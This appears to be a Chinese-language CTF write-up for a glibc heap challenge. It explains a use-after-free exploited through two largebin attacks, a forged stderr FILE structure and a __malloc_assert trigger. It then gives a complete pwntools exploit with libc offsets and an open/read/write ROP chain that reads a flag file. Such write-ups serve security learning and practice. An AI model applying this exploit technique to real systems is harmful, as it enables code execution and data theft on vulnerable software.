

> 最后一天的题，水水

## 逆向

### 格式检查

```shell
LOGIN | r00t QWBQWXFadmin
CAT | r00t QWBQWXF$\xff
```

### 功能分析

#### add

index在0到15间

0x418<= size <=0x46f

使用calloc

#### delet

UAF

#### show

write 0x30

#### edit

限制2次

每次只能修改**0x30**

## 攻击流程分析

由于不存在对exit的调用，且在main函数中无限循环，故无法进行FSOP

可以采用house of kiwi的触发IO思路，利用`__malloc_assert`调用`fflush(stderr)`或者`__fxprintf`

所以需要攻击位于stderr上的指针，恰好本题该地址可写，这里使用一次largebin attack

另外，要触发`__malloc_assert`，需要修改topchunk的size

本题由于edit有长度限制，不方便使用之前构造堆重叠的方式，所以这里可以用第二次largebin attack攻击size

恰好共有两次edit机会，刚好用完e

另外，攻击top size时要注意，在将第二个chunk加入largebin时，不能改变top chunk的位置。也就是说，不能通过分配一个更大chunk的方式来得到第二个largechunk

这是因为对largebin进行unlink的操作在从topchunk分配chunk之前，此时修改过的size会被新的size覆盖掉。

所以这一步入largebin的操作，可以通过分配更小的chunk获得



开了沙箱，禁用了execve，并检查read的fd是否为0

故只能打orw, 并且在open前需要先close(0)

## 堆风水

需要达到的效果是：两次largebin attack，分别使stderr指向可控内容的堆块、修改topchunk

看似比较简单，但需注意edit只能修改0x30，且只有两次机会

所以对伪造结构体内容的写入需要在add操作进行，入largebin之后对前6个地址会有覆盖，实测下来对IO利用没有影响

## IO利用流程分析

_wide_data=fake_io_addr+0x30

1.将[rdi+0xa0]`_wide_data`处的内容赋值给rax，为了避免与下面的rax混淆，称之为**rax1**。
2.将新赋值的[rax1+0x20]`_IO_backup_base`处的内容赋值给rdx。
3.将[rax1+0xe0]

处的内容赋值给rax，称之为**rax2**。
4.call调用[rax2+0x18]处的内容。


```c
_wide_data->_IO_read_ptr ！=_wide_data->_IO_read_end
_wide_data->_IO_write_ptr > _wide_data->_IO_write_base
#如果_wide_data=fake_io_addr+0x30，其实也就是fp->_IO_save_base < f->_IO_backup_base
fp->_lock是一个可写地址（堆地址、libc中的可写地址
```

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(p, cmd)
	pause()

host = ""
port = 0
p = process("./pwn")
#p = remote(host, port)
libc = ELF("./libc.so.6")

login = "LOGIN | r00t QWB QWXFadmin"
cat = "CAT | r00t QWB QWXF$\xff"

def add(index, size, content):
	p.sendafter("mew~~~~~~\n", cat)
	p.sendlineafter("cat\n", "1")
	p.sendlineafter("idx:\n",str(index).encode())
	p.sendlineafter("size:\n",str(size).encode())
	p.sendafter("content:\n",content)
def delete(index):
	p.sendafter("mew~~~~~~\n", cat)
	p.sendlineafter("cat\n", "2")
	p.sendlineafter("idx:\n",str(index).encode())
def show(index):
	p.sendafter("mew~~~~~~\n", cat)
	p.sendlineafter("cat\n", "3")
	p.sendlineafter("idx:\n",str(index).encode())
def edit(index, content):
	p.sendafter("mew~~~~~~\n", cat)
	p.sendlineafter("cat\n", "4")
	p.sendlineafter("idx:\n",str(index).encode())
	p.sendafter("content:\n",content)

p.send(login)
add(0, 0x420, cyclic(0x420))#largechunk 0
add(1, 0x440, cyclic(0x440))
delete(0)
add(2, 0x450, cyclic(0x450))
show(0)#leak largechunk

libc_base = u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))-0x21a0d0
stderr_addr = libc_base + 0x21a860
setcontext61 = libc_base + 0x53a6d
p.recvuntil("\x7f\x00\x00")
heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x290
log.success("libc_base = {}".format(hex(libc_base)))
log.success("heap0_base = {}".format(hex(heap_base)))
log.success("stderr_addr = {}".format(hex(stderr_addr)))

ret = 0x0000000000029cd6+libc_base
pop_rdi = 0x000000000002a3e5+libc_base
pop_rsi = 0x000000000002be51+libc_base
pop_rax = 0x0000000000045eb0 + libc_base
syscall = 0x0000000000091396 + libc_base

# debug()
#fake stderr----------------------------------------
fake_stderr = heap_base + 0xf70
fake_rdx = fake_stderr + 0x10 + 0x200
fake_stack = fake_stderr + 0x10 + 0x320
io = p64(0)*6
io += p64(1) + p64(2)#rcx!=0
io += p64(fake_rdx)#backup_base rdx
io += p64(setcontext61)
io = io.ljust(0x78, '\x00')
io += p64(libc_base+0x21ba60)#lock
io = io.ljust(0x90, '\x00')
io += p64(fake_stderr+0x30)#wide_data rax1
io = io.ljust(0xb0, '\x00')
io += p64(1)#mode
io = io.ljust(0xc8, '\x00')
io += p64(libc_base+libc.sym['_IO_wfile_jumps']+0x10)
io += p64(0)*6
io += p64(fake_stderr+0x40)
io = io.ljust(0x200, '\x00')
#fake rdx:
payload = "./flag\x00\x00"
payload = payload.ljust(0x68,"\x00")
payload += p64(0)#rdi->0
payload += p64(0)#rsi->0
payload = payload.ljust(0x88,"\x00")
payload += p64(0x100)#rdx->0
payload = payload.ljust(0xa0)
payload += p64(fake_stack)#rsp->chunk 1
payload += p64(ret)#rcx->ret
io += payload
io = io.ljust(0x320,"\x00")
#fake_stack:
payload = p64(libc_base+libc.sym['close'])
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(fake_rdx)
payload += p64(pop_rax)
payload += p64(2)
payload += p64(syscall)#open
payload += p64(pop_rax)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x100)
payload += p64(syscall)#read
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x100)
payload += p64(syscall)#write
io+=payload

io = io.ljust(0x430,'\x00')

#----------------------------------------------

add(4,0x440,io)# largebin 0 
add(5,0x440,cyclic(0x440))
add(6,0x430,cyclic(0x430))#largebin 1
# add(7,0x440,cyclic(0x440))
# add(8,0x420,cyclic(0x420))
delete(4)
add(9,0x460,cyclic(0x440))
delete(6)
#largebin attack
payload = p64(libc_base+0x21a0e0)*2 + p64(heap_base+0xf90) + p64(stderr_addr-0x20) + p64(0)*2
edit(4, payload)
add(10,0x460,cyclic(0x460))

add(11, 0x430, cyclic(0x430))#calloc chunk6

#largebin attack 2

delete(11)#largebin 1 0x430
#delete(8)
payload = p64(libc_base+0x21a0e0)*2 + p64(heap_base+0xf90) + p64(heap_base+0x2538-5-0x20) + p64(0)*2
edit(4, payload)
add(15,0x41f,cyclic(0x41f))


# debug()
add(7, 0x460,cyclic(0x460))#trigger malloc assert

p.interactive()
```

